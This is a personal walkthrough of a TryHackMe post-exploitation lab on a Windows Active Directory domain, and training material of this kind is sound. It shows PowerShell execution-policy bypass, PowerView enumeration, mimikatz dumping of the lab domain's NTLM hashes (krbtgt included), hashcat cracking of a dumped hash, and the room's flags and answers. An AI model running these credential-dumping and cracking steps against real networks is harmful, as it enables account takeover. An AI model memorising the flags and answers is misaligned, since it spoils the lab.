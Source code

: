 # Post-Exploitation Basics
###URL : https://tryhackme.com/room/postexploit
### Why?

I am trying to get a better understanding of Windows Post-Exploitation basics and Enumeration.


## Task 2 | Enumeration w\ Powerview
First we start `powershell with -ep bypass` to bypass any executeable restrictions and load 
`PowerView.ps1`
Simple Cheatsheet for Powerview here: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

After that its asking us to enumerate a few things on the system;

First; the Domain Users:
`Get-Netuser | select on`

```
PS C:\Users\Administrator> Get-Netuser | select cn

cn
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```
This gives us a nice list of Users (Also probably a Flag for a future question).

Then it asks us to Enumerate the Domain Groups with `Get-NetGroup -GroupName *admin*`

```
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin*
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

Then a real question

#### What is the shared Folder that is not set by Default.
We can find this by looking at the shares; this can be done with `Invoke-Sharefinder`

```
PS C:\Users\Administrator> Invoke-Sharefinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```
We can tell here that "\Share" is not a normal share, and is correct.


### What operating system is running inside of the network besides Windows Server 2019?
For this we need another command that is provided in the hints: `Get-NetComputer -fulldata | select operatingsystem`
```
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation 
Windows 10 Enterprise Evaluation
```

### I've hidden a flag inside of the users find it

From the list above, we can see a User Flag "hidden" in the userlist. `Get-Netuser | select cn`

## Task 3 | Enumeration w/ Bloodhound
Now, we have to setup Bloodhound on our Kali Box; Unfortunately it didnt run out of the box (neo4j doesnt run by default.)

Unfortunately, SharpHound / Bloodhound lost compatibility with eachother when using the Sharphound... 
Lets try updating/upgrading our local Kali VM first.

## Task 4 | Enumeration w/ mimikatz
Lets see what we can do with Mimikatz. The binary is already pre-loaded so lets execute within our ssh connection and see what we got.
We run mimikatz.exe in the ./Downloads/ folder and then first we check if mimikatz is started with the appriate user.

```
mimikatz # privilege::debug 
Privilege '20' OK 
```

After this is confirmed, we can move on to "Dump those hashes".

```
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2 

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 87ddcbe804e45129e508ed49d9e72402

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :  
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```
This gives us a list of NTLM hashes we can crack using hashcat.

First we crack our own Hash:
```
hashcat -m 1000 2777b7fec870e04dda00cd7260f7bee6 /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 2777b7fec870e04dda00cd7260f7bee6
Time.Started.....: Wed Sep  7 08:42:09 2022 (4 secs)
Time.Estimated...: Wed Sep  7 08:42:13 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3003.2 kH/s (0.15ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10762240/14344385 (75.03%)
Rejected.........: 0/10762240 (0.00%)
Restore.Point....: 10760192/14344385 (75.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: PAKITHUG -> P229Grandpa
Hardware.Mon.#1..: Util: 61%
```

### what is the Machine1 Password?
Then to answer the actual question; we have to crack "Machine 1"'s hash.

`hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt` gives us the answer we need

### What is the Machine2 Hash?
We can easily find this in the list above.